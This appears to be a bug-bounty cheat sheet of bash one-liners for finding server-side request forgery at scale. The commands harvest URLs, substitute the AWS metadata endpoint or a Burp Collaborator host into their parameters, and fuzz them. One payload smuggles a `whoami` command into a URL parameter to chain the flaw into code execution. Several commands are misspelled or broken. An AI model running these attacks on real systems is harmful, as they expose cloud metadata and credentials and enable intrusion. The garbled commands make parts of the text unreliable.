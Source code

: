 
## Accessing SSRF metadata with automation by just using curl and bash

### TIPs 1

**Command for getting URLs**
```bash
waybackurls target.com | tee wayback.txt
gau -subs target.com | tee gau-urls.txt

cat wayback.txt gau-urls.txt | sort -u |anew | httpx -silent | qsreplace 'http://169.254.169.254/latest/meta-data/hostname' | xargs -I % -P 25 sh -c 'curl -ks "%" 2>&1 | grep "compute.internal" && echo "SSRF VULN! %"'
```
### TIPs 2
**Find Blind SSRF with automation by just using curl and bash**
```bash
waybaclurls target.com | tee wayback.txt
gau -subs target.com | tee gau-urls.txt

cat wayback.txt gau-urls.txt | sort -u | anew | httpx -silent | tee all-urls.txt
cat all-urls.txt | gf ssrf | tee ssrf.txt

# Finally we will use ffuf and burp collaboraotr client
cat ssrf.txt | qsreplace "YOUR BURP URL" | tee ssrf-fuzz.txt
ffuf -c ssrf-fuzz.txt -u FUZZ

```
### TIPs 3
```bash
#Gather URLs
gau -subs example.com 
waybackurls example.com
# Else You can use like this;
gau -subs example.com; subfinder -d example.com -silent |waybackurls | gf ssrf | sort -u | tee ssrf.txt

# Now we use fuzz the url for blind ssrf.
cat ssrf.txt | qsreplace 'http://YOUR.burpcolaborator.net' | tee ssrf-fuzz.txt
ffuf -c -w ssrf-fuzz.txt -u FUZZ -t 200
#Now we will check whetherwe get any http request hit on our burp collaborator server.
```
**If you get any http ping back on burpcolaborator then try to chain with RCE**

**http:/devtest.exampl.com/import/picture?next_image=http://4v0er435p7gx4lx6432c7bdylprff4.burpcollaborator.net?`whoami`**


### TIPs 4

**Gather all target URLs using wayback,gau**
```bash
gau -subs example.com | tee gau-urls.txt
waybackurl example.com | tee wayback.txt
subfinder -d example.com -silent | waybackurls | sort -u | tee urls.txt
cat *.txt | grep "=" | sort -u | grep "?" | httpx -silent | tee fuzz.txt

#Here we use magicparameter sparing
xrags -a ~/magicparameter/ssrf.txt -l@ bash -c 'for url in$(cat fuzz.txt); do echo "$url&@=http://burpcolaborator.net";done' | httpx -silent http-proxy http://127.0.0.1:8080
```
#So that to fuzzing further to get AWS internal metadata for the vulnerable domain like these:

**This all method for Blind SSRF You can increate this impact to chain with RCE.openredirect..etc vulnerability**









